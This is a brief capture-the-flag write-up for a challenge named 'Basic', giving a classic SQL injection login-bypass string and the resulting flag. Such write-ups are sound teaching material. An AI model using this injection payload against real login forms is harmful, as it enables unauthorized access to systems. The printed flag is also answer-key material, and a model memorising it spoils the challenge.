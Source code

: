 # Basic

![](img/basic.png)

It's a basic `sqli` challenge,
```bash 
admin' or '1'='1' --
```

![](img/basic-flag.png)

``` RTL{b@s1c_5ql}  ```
